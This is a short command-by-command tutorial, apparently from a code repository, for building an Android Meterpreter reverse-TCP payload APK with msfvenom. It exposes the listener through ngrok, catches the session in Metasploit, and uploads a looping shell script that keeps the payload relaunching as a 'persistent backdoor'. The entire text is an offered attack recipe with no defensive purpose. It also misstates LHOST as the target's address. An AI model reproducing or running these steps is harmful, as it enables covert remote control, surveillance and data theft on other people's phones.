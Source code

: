 ﻿##################################   BY DEUS EX MACHINA    ###############################################################
#register and set up ngrok from the instructions on the site
#go to the direcory in which ngrok is  in the type"
./ngrok tcp $port
#where $port is the port you want to open for using msfvenom on your pc


#in your terminal, msfvenom terminal or metasploit terminal, type

msfvenom -p android/meterpreter/reverse_tcp LHOST=$ipaddress LPORT=$port R>payloadname.apk
#where $ipaddress is the ip address of the target device and $lport is the port you opened on your device.
#now go ahead to type the following

msfconsole -q
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT $port
run
#now you can go ahead to install the exploit on the device and open it and you will see a metapreter session in your terminal where you can run your commands
#next we will run a script to keep our exploit running


#create shell script the following shell script:
#!/bin/sh
while :
do am start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage/.MAinActivity
sleep 10
done

#save the script on your machine and now in your meterpreter session type these

shell
cd /sdcard
upload ~/path
#where ~/path is the location of the shell script you have created on your machine
#no we are done uploading the script to the target device, we need to run it by this command

nohup sh autostart.sh
#our script is now running. we can now exit with:
CTRL + C
Y
#now we have a persistent backdoor in the system

########################################      KEEP IT AS RECEIVED      ##################################################



